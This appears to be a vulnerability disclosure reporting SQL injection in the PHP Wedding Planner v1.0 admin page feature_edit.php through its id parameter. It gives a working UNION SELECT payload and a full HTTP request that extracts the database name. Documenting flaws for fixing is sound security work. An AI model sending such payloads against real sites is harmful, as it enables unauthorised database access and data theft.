 # Wedding Planner v1.0 by pushpam02 has SQL injection

BUG_Author: shark007

vendors: https://www.sourcecodester.com/php/15375/wedding-planner-project-php-free-download.html

Vulnerability File: /Wedding-Management-PHP/admin/feature_edit.php?id=

Vulnerability location: /Wedding-Management-PHP/admin/feature_edit.php?id=

[+] Payload: /Wedding-Management-PHP/admin/feature_edit.php?id=-8%20union%20select%201,2,database(),4--+

dbname = dbwedding

```sql
GET /Wedding-Management-PHP/admin/feature_edit.php?id=-8%20union%20select%201,2,database(),4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=ncd6h7doujvbbft46r0m7mbr6s
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183276957-87b7a8dd-617e-4eb8-b7b7-7ca2368f91bc.png)

